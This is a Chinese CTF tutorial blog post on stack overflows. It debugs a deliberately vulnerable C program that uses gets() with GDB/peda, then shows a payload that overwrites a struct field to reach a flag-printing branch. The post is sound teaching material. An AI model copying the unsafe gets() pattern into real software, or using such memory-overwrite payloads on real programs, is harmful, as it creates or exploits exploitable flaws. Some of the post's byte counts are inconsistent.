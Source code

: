 ```yaml
---
id: 776
layout: post
title: '二进制安全之栈溢出（一）'
date: 2017-10-20 10:46:07
author: virusdefender
tags: 安全 CTF 二进制
---
```


首先假设已经有了C语言的基础知识，了解变量和指针。暂时不需要懂汇编和内存栈结构。

## 安装 peda

peda 是 GDB 的一个插件，提供了很多方便我们调试和漏洞利用的功能。源码和安装方式在 [https://github.com/longld/peda](https://github.com/longld/peda)

下面的代码我也忘了来源了，反正是充满了暴力气息的一段代码。

```clike
#include <stdio.h>

struct Student {
    char name[8];
    char s;
    int birth;
};

int main(int argc, char **argv) {
    struct Student student;
    student.s = 'c';
    printf("What's Your Birth?\n");
    scanf("%d", &student.birth);
    while (getchar() != '\n') ;
    if (student.birth == 1926) {
        printf("You Cannot Born In 1926!\n");
        return 0;
    }
    printf("What's Your Name?\n");
    gets(student.name);
    printf("You Are Born In %d\n", student.birth);
    if (student.birth == 1926) {
        printf("You Shall Have Flag.\n");
        system("cat flag");
    } else {
        printf("You Are Naive.\n");
        printf("You Speed One Second Here.\n");
    }
    return 0;
}

```

`gcc -g -O0 -o vuln main.c` 编译

## GDB调试指令

```
sudo gdb ./vuln
```

如果成功安装了peda，就可以看到 `gdb-peda$` 的提示了。

常用的指令就不多说了，比如 `list` `b` 等。

通过 `list` 浏览了代码，就可以使用 `b $line_number` 的方式下断点了，比如想让代码停在 14 行，然后看 `student` 变量的内存分布，那我们可以输入`b 14`。

通过 `info breakpoints` 可以看到所有的断点。

`r` 指令是运行这个调试程序，然后看到进程成功的停在了我们的断点处。

```
gdb-peda$ r

...

Breakpoint 1, main (argc=0x1, argv=0x7fffffffe568) at main.c:14
14	    printf("What's Your Birth?\n");
```

至于上面的一堆汇编输出，我们后面再说。

## 万物皆可print

下断点就是为了查看 `student` 结构体的内存分布，C 语言里面很多函数在这里也是类似的用法的。

```
gdb-peda$ p sizeof(student)
$9 = 0x10
gdb-peda$ p sizeof(student.birth)
$10 = 0x4
gdb-peda$ p sizeof(student.name)
$11 = 0x8
gdb-peda$ p sizeof(student.s)
$12 = 0x1
```

可以看到 `student` 结构体是 16 个字节大小，至于为什么是 16 个字节，而不是 8+1+4=13 个字节呢？

那是因为 `s` 成员是 `char` 类型的，一个字节，然后计算机为了加快内存访问速度进行了内存对齐操作，把 `s` 所在的内存补全为了 4 个字节，关于内存对齐，可以参考 https://github.com/ludx/The-Lost-Art-of-C-Structure-Packing

## 查看内存地址

这里也是类似c语言里面的取地址符号，我们查看 `student` 和它三个成员的内存地址。

```
gdb-peda$ p &student
$1 = (struct Student *) 0x7fffffffe460
gdb-peda$ p &(student.name)
$2 = (char (*)[8]) 0x7fffffffe460
gdb-peda$ p &(student.s)
$3 = 0x7fffffffe468 "c\006@"
gdb-peda$ p &(student.birth)
$4 = (int *) 0x7fffffffe46c
```

可以看到 `student` 结构体和 `student.name` 起始内存地址都是 `0x7fffffffe460`，然后`student.name` 占用 8 个字节，`student.s` 起始地址就是 `0x7fffffffe468` 了，然后因为 4 字节补全，`student.birth`的起始内存地址就是 `0x7fffffffe46c` 了。

## 查看指定的内存地址的数据

这里使用的是 `x` 指令，它有三个可选参数 `x/<n/f/u> $addr`

`n` 是一个正整数，表示需要显示的内存单元的个数，也就是说从当前地址向后显示几个内存单元的内容，一个内存单元的大小由后面的 `u` 定义。

`f` 表示显示的格式，比如 `x` 按十六进制格式显示变量, `d` 是按十进制格式显示变量。

`u` 表示从当前地址往后请求的字节数，如果不指定的话，GDB 默认是 4 个 bytes。`u`参数可以用下面的字符来代替，`b` 表示单字节，`h` 表示双字节，`w` 表示四字节，`g` 表示八字节。当我们指定了字节长度后，GDB会从指内存定的内存地址开始，读写指定字节，并把其当作一个值取出来。

为了打印 `student` 结构体的内存分布，先在第 24 行下断点，然后让进程继续执行直到下一个断点。

```
gdb-peda$ b 24
Breakpoint 2 at 0x4007b1: file main.c, line 24.
gdb-peda$ c
Continuing.
What's Your Birth?
1925
What's Your Name?
AAAAAAA
You Are Born In 1925

......

reakpoint 2, main (argc=0x1, argv=0x7fffffffe568) at main.c:24
24	    if (student.birth == 1926) {
```

然后就可以

```
gdb-peda$ x/16xb &student
0x7fffffffe460:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x00
0x7fffffffe468:	0x63	0x06	0x40	0x00	0x85	0x07	0x00	0x00

gdb-peda$ x/4xw &student
0x7fffffffe460:	0x41414141	0x41414141	0x41414141	0x00000785
```

前 7 个字节就是字母 `A` 的 ASCII `0x41`，然后是 `0xx` 字符串结尾，然后是代码中写死的 `c` 字母，然后跳过三个字节之后还剩四个字节，就是一个 `int` 数字。

从最后四个字节分布可以看出来，对于 `int 0x00000785` 这种多字节变量，它们的低字节在内存低地址处，高字节在内存高地址处，这种分布方式成为小端序，还有的机器是反过来的，叫做大端序。对于 `char` 这种单字节变量和`student.name` 这种数组来说，没有大小端的问题，

## 分析内存结构

这里问题就很清晰了，`student.name` 数组没有限制长度，如果我们输入超过 7 位的话，多出来的内容将覆盖 `student.s` 的内存，如果输入再长的话，就会覆盖 `student.birth`的内存空间。所以我们可以确定 `student.name` 的输入长度是 16 字节，前面 14 字节可以是任意构造，只要认真构造最后两个字节，让 `student.birth` 的内存为 `0x00000786` 就可以，所以我们构造的payload就是`AAAAAAAAAAAA\x86\x07`

然后这种特殊的字符我们都可以使用 Python 输入到文件中，然后重定向输入的

```
➜  Desktop python -c "print '1234\nAAAAAAAAAAAA\x86\x07\n'" > 1.in
➜  Desktop ./vuln < 1.in
What's Your Birth?
What's Your Name?
You Are Born In 1926
You Shall Have Flag.
cat: flag: No such file or directory
```

GDB也可以使用这种重定向输入的

```
gdb-peda$ b 24
Breakpoint 1 at 0x4007b1: file main.c, line 24.
gdb-peda$ r < 1.in
Starting program: /home/virusdefender/Desktop/pwn/1/main < 1.in
What's Your Birth?
What's Your Name?
You Are Born In 1926

···

Breakpoint 1, main (argc=0x1, argv=0x7fffffffe568) at main.c:24
24	    if (student.birth == 1926) {
gdb-peda$ x/16xb &student
0x7fffffffe460:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe468:	0x41	0x41	0x41	0x41	0x86	0x07	0x00	0x00
```

可以看到我们控制了 `student` 的内存，让代码进入了指定的分支。

